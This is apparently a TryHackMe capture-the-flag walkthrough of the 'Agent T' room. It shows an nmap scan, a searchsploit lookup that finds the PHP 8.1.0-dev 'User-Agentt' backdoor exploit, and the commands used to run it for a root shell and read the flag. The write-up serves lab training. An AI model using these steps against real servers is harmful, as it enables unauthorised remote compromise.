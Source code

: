 # Agent T

This is my first ever walkthrough! Hello and welcome to TryWalkMe, walkthroughs which help you develop further skills and help you in the long run! Today, we are looking at Agent T which can be found in this room: https://tryhackme.com/room/agentt. This room is very simple since there's only one port and one crucial exploit.

You need searchsploit installed to keep going. It's a very nifty tool and you can install it in Kali Linux and ParrotOS!

## Task 1

### Find the flag

Going to the site reveals a basic admin dashboard with no use. However, we must always perform enumeration before exploitation. We will run a detailed *nmap* scan.

```
┌─[sandstoop@parrot]─[~]
└──╼ $sudo nmap -sV -O -sC 10.10.204.92
[sudo] password for sandstoop: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-20 22:33 CEST
Nmap scan report for 10.10.204.92
Host is up (0.059s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=8/20%OT=80%CT=1%CU=36794%PV=Y%DS=2%DC=I%G=Y%TM=68A6
OS:3145%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)SEQ(S
OS:P=108%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=108%GCD=2%ISR=10D%TI=Z%CI
OS:=Z%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST
OS:11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=
OS:FE88%W6=FE88)ECN(R=Y%DF=Y%T=3F%W=FAF0%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T
OS:=3F%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=3F%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=
OS:40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0
OS:%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R
OS:=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.31 seconds
```

There's only one port which means we need to focus on that. Now, **PHP cli server 5.5** is the same as **HTTPServer** in Python, it's a web server. Now, we need to search up what we found on Nmap. Good resources to find them are ExploitDB and GitHub. However, we will use a nifty little tool named *searchsploit* known as a local wrapper for ExploitDB which makes searching in the terminal.

```
┌─[sandstoop@parrot]─[~]
└──╼ $searchsploit PHP cli server --> No results, we can move on to the version of the PHP programming language, this is the web server! Nothing relates to our usecase.
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
ActiveWeb Contentserver CMS 5.6.2929 - Client | php/webapps/30299.txt
inClick Cloud Server 5.0 - SQL Injection      | php/webapps/42663.txt
Sad Raven's Click Counter 1.0 - 'passwd.dat'  | php/webapps/7844.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results
┌─[sandstoop@parrot]─[~]
└──╼ $searchsploit PHP 8.1.0-dev
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Exe | php/webapps/49933.py <-- All other results were redacted for clarity
---------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Feel free to do some sifting through all of this! It's good practice to search up the entire Nmap service version. We shouldn't just be searching up the *PHP version* in this case, we should also search up the *PHP cli server* exploits to ensure nothing goes missing and we do this room! Assuming you have searchsploit and the ExploitDB database, we will find the exploit script in that database. These are the steps to find the exploit script:

```
┌─[sandstoop@parrot]─[~]
└──╼ $cd /usr/share/exploitdb/exploits -> The ExploitDB database
┌─[sandstoop@parrot]─[/usr/share/exploitdb/exploits]
└──╼ $cd php --> Goes to the PHP exploits (php/webapps/49933.py) 
┌─[sandstoop@parrot]─[/usr/share/exploitdb/exploits/php]
└──╼ $cd webapps --> Goes to the webapp exploits (webapps/49933.py)
┌─[sandstoop@parrot]─[/usr/share/exploitdb/exploits/php/webapps]
└──╼ $python3 49933.py --> Executes the script
Enter the full host url:
http://10.10.204.92         

Interactive shell is opened on http://10.10.204.92 
Can't acces tty; job crontol turned off.
$ 

```

We finally got access to a shell. We need to check if this exploit gives you root automatically or boots you to a non-privileged user.

```
$ whoami
root
```

Now, we will search for the flag and find it. This can be done with a simple *find* command.

```
$ find / -name "flag.txt" 2>/dev/null --> Finds flag.txt starting from root, discards stderr to /dev/null
/flag.txt -> Bonus

$ cd / --> Changes directory to /

$ ls --> Wait... this does not register as a change. This can be blamed to the usage of a tty (/bin/sh)
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor

$ cat /flag.txt --> Uses cat (concatenate) to print the flag
flag{hopefully_it_was_fun}
```

This challenge was very easy, only using one port (80 TCP HTTP) while having a root access backdoored version that we quickly found and exploited! Apart from having no other ports, the need of privilege escalation was depleted and searching up the PHP version gave us a working exploit!

